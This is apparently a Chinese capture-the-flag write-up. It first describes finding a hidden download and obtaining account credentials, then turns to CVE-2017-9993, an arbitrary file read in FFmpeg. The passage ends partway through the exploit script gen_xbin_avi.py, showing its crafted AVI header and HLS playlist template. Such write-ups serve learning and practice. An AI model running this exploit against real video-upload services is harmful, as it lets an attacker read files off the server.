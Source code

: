 ![4](https://i.loli.net/2018/12/21/5c1c9252bc1b4.png)

于是我们又把这个输入到url
震惊的发现`Flag is not Here!`
不用慌
打开我们的`F12`
果然嘴上说着不要身体还是挺老实的

![5](https://i.loli.net/2018/12/21/5c1c93ed354fb.png)

于是 嗯 再次输入后
开始下载了
恭喜 喜提账号密码

![6](https://i.loli.net/2018/12/21/5c1c95e26200e.png)

![7](https://i.loli.net/2018/12/21/5c1c99f036a89.png)

## CVE-2017-9993
### 0x00 题目描述
![8](https://i.loli.net/2018/12/21/5c1c9a794321a.png)
似乎就是一个 文件上传

>FFmpeg是一套可以用来记录、转换数字音频、视频，并能将其转化为流的开源计算机程序,可用于预览生成和视频转换的视频编码软件

### 0x00 漏洞分析

不会进行漏洞分析

脚本还没看懂

哭唧唧

只会使用脚本可以进行任意文件的读取

### 0x00 漏洞复现

1.编写脚本
`gen_xbin_avi.py`
```python  
#!/usr/bin/env python3
import struct
import argparse
import random
import string

AVI_HEADER = b"RIFF\x00\x00\x00\x00AVI LIST\x14\x01\x00\x00hdrlavih8\x00\x00\x00@\x9c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00}\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\xa0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00LISTt\x00\x00\x00strlstrh8\x00\x00\x00txts\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x19\x00\x00\x00\x00\x00\x00\x00}\x00\x00\x00\x86\x03\x00\x00\x10'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\xa0\x00strf(\x00\x00\x00(\x00\x00\x00\xe0\x00\x00\x00\xa0\x00\x00\x00\x01\x00\x18\x00XVID\x00H\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00LIST    movi"

ECHO_TEMPLATE = """### echoing {needed!r}
#EXT-X-KEY: METHOD=AES-128, URI=/dev/zero, IV=0x{iv}
#EXTINF:1,
#EXT-X-BYTERANGE: 16
/dev/zero
#EXT-X-KEY: METHOD=NONE
"""

# AES.new('\x00'*16).decrypt('\x00'*16)
```